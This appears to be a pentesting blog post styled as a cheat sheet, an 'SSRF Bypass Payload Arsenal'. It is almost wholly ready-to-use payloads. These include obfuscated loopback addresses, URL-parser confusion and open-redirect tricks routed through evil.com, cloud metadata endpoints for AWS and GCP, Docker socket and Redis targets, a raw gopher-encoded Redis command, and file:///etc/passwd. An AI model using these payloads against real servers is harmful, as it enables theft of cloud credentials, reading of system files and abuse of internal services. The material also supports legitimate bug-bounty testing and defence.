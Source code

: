 ```yaml
---
title: " SSRF Bypass Payload Arsenal"
date: 2025-07-17 00:00:00 +0530
categories: [Vulnerability, SSRF]
tags: [Pentesting, Bug Bounty, SSRF, Vulnerability]
---
```


**These help bypass SSRF filters or reach internal services despite basic protections.**

### Common SSRF Filters You Might Face
-   Allowlist/Blacklist of domain or IP
-   `url.startsWith("http://")` or regex filtering
-   IP resolution checks (blocking `127.0.0.1`, etc.)
-   Schema restrictions (`http` only)

### IP Obfuscation Tricks
| Format | Payload Example | Purpose |
|--|--|--|
| Decimal | http://2130706433/ | 2130706433 = 127.0.0.1 |
| Hex | http://0x7f000001/ | Same as 127.0.0.1 |
| Octal | http://0177.0.0.1/ | Works if octal parsing is enabled |
| Mixed | http://127.1/ , http://127.000.000.001/ | Abbreviated loopback |
| Dotted Hex | http://0x7f.0x00.0x00.0x01/ | Segment-based hex |
| IPv6 | http://[::1]/ | Loopback IPv6 |
| DNS rebinding | Point DNS to internal IP | Server sees public IP but resolves internal |
| Encoded dots | http://127%2e0%2e0%2e1/ | URL-encoded dot bypass |

### Hostname Tricks

| Trick Type | Example |
|--|--|
| @ Symbol Confusion | http://127.0.0.1@evil.com/ |
| Reversed @ | http://evil.com@127.0.0.1/ |
| Fragment Bypass | http://127.0.0.1#evil.com/ |
| Encoded Fragment | http://127.0.0.1%23evil.com/ |

### Redirection & Open Redirect

| Type | Example |
|--|--|
| Redirect → Internal | http://evil.com/redirect?url=127.0.0.1 |
| Double Redirect Chain | evil.com → internal.com → 127.0.0.1 |
| URL Shortener Bypass | tinyurl.com/internalip |

### Redirect Bypass Tricks
```bash
http://evil.com/redirect?next=http://127.0.0.1/
```
| Trick | Description |
|--|--|
| Open Redirect + SSRF | Combine vulnerable redirect to reach internal resources |
| Double Redirect | Redirects to a URL that further redirects to internal IP |
| Wildcard DNS | Use domains like anything.yourdomain.com to simulate internal subdomains |
| URL shorteners | TinyURL or your own shortener to mask real internal target |

### URL Parser Confusion Tricks

| Payload | Behavior |
|--|--|
| http://127.0.0.1@evil.com/ | Looks like internal IP, but resolves to evil.com |
| http://evil.com@127.0.0.1/ | Most parsers think host is 127.0.0.1 |
| http://127.0.0.1#evil.com/ | Fragment ignored by server, only browser cares |
| http://127.0.0.1%23evil.com/ | Encoded # to confuse filters |

### SSRF to Internal Services
| Target | Payload |
|--|--|
| AWS Metadata | http://169.254.169.254/latest/meta-data/ |
| GCP Metadata | http://169.254.169.254/computeMetadata/v1/ (Add Metadata-Flavor: Google ) |
| Docker socket | http://localhost:2375/containers/json |
| Redis | gopher://127.0.0.1:6379/_PING |
| MySQL | mysql://127.0.0.1:3306/ |
| Memcached | memcached://127.0.0.1:11211

### Protocol Smuggling (Advanced)
If server allows more than `http://` ,  try :

-   `file://` – access local files
-   `gopher://` – inject raw bytes (Redis, FTP, etc.)
-   `dict://127.0.0.1:11211/` – another bypass channel
-   `ftp://`, `sftp://`, etc. – protocol abuse

Example :

```bash
gopher://127.0.0.1:6379/_%2a1%0d%0a%24%34%0d%0aPING%0d%0a
```

| Protocol | Payload Example |
|--|--|
| file:// | file:///etc/passwd |
| gopher:// | gopher://127.0.0.1:6379/... |
| dict:// | dict://127.0.0.1/ |
| ftp:// | ftp://127.0.0.1/ |

